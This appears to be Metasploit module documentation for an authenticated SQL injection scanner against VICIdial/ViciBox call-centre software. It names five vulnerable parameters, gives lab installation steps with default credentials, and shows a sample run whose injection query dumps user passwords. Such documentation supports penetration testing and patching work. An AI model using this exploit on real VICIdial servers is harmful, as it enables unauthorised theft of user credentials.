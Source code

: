 ## Vulnerable Application

This module exploits several authenticated SQL Inject vulnerabilities in VICIdial 2.14b0.5 prior to
svn/trunk revision 3555 (VICIBox 10.0.0, prior to January 20 is vulnerable).

- Injection point 1 is on vicidial/admin.php when adding a user, in the modify_email_accounts parameter.
- Injection point 2 is on vicidial/admin.php when adding a user, in the access_recordings parameter.
- Injection point 3 is on vicidial/admin.php when adding a user, in the agentcall_email parameter.
- Injection point 4 is on vicidial/AST_agent_time_sheet.php when adding a user, in the agent parameter.
- Injection point 5 is on vicidial/user_stats.php when adding a user, in the file_download parameter.
  
|                                           | v9.0.3                         | v10.0.0                        |
| ----------------------------------------- | ------------------------------ | ------------------------------ |
| List Users - access_recordings method     | X                              | X                              |
| List Users - agent_time_sheet method      | `view reports` must be enabled | `view reports` must be enabled |
| List Users - agentcall_email method       | X                              | X                              |
| List Users - modify_email_accounts method | X                              | X                              |
| List Users - user_stats method            | `view reports` must be enabled | `view reports` must be enabled |

VICIdial does not encrypt passwords by default.

VICIBox/VICIdial includes an auto-update mechanism, so be aware for creating vulnerable boxes.

### Install

#### 9.0.3 & 10.0.0

1. Install the following OpenSUSE 10 ISO [ViciBox_v9.x86_64-9.0.3.iso](http://download.vicidial.com/iso/vicibox/server/ViciBox_v9.x86_64-9.0.3.iso)
or [ViciBox_v10.x86_64-10.0.0.iso](http://download.vicidial.com/iso/vicibox/server/archive/ViciBox_v10.x86_64-10.0.0.iso) :
    1. Change the default password (`root`:`vicidial`)
    2. Set Timezone, Keyboard Layout, ok the license, and Language
    3. Network settings should autoconfigure (Tested on VMware Fusion). Network settings can be configured with the 
        command `yast lan` if necessary
2. Run `vicibox-express` to initiate the ViciDial Express Installation, everything can be kept as default
3. Navigate to `http://<ip-address>/` 
    1. Click `Administration` and login with default credentials username: `6666`, password: `1234`
    2. Once logged in, Click `Continue on to the Initial Setup`. Everything can be kept as default. 
4. The complete list of setup instructions can be found by following this [link](http://download.vicidial.com/iso/vicibox/server/ViciBox_v9-install.pdf)


## Verification Steps

1. Start msfconsole
1. Do: ```use auxiliary/scanner/http/vicidial_multiple_sqli```
1. Do: ```set username <username>```
1. Do: ```set password <password>```
1. Do ```show actions```
   1. Select from the list or keep the default
1. Do: ```run```
1. The module will exploit the selected SQL injection and return the extracted usernames and passwords

## Options

### Password

Password for the vicidial instance that coresponds to the username.

### Username

Username for the user to login with. Defaults to admin username of `6666`.

## Scenarios

### ViciBox 9.0.3 - List Users - modify_email_accounts

```
msf6 use auxiliary/scanner/http/vicidial_multiple_sqli
msf6 auxiliary(scanner/http/vicidial_multiple_sqli) > set verbose true
verbose => true
msf6 auxiliary(scanner/http/vicidial_multiple_sqli) > set password notpassword
password => notpassword
msf6 auxiliary(scanner/http/vicidial_multiple_sqli) > set action List Users - modify_email_accounts method
action => List Users - modify_email_accounts method
msf6 auxiliary(scanner/http/vicidial_multiple_sqli) > run

[*] Enumerating Usernames and Password Hashes
[*] {SQLi} Executing (select group_concat(TXMlUAF) from (select cast(concat_ws(';',ifnull(user,''),ifnull(pass,'')) as binary) TXMlUAF from vicidial_users limit 3) jUFFwQn)
[*] {SQLi} Encoded to (select group_concat(TXMlUAF) from (select cast(concat_ws(0x3b,ifnull(user,repeat(0x87,0)),ifnull(pass,repeat(0x52,0))) as binary) TXMlUAF from vicidial_users limit 3) jUFFwQn)
[*] {SQLi} Time-based injection: expecting output of length 46
[!] No active DB -- Credential data will not be saved!
[+] Dumped table contents:
vicidial_users
==============

 user  pass
 ----  ----
 6666  notpassword
 VDAD  donotedit
 VDCL  donotedit

[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```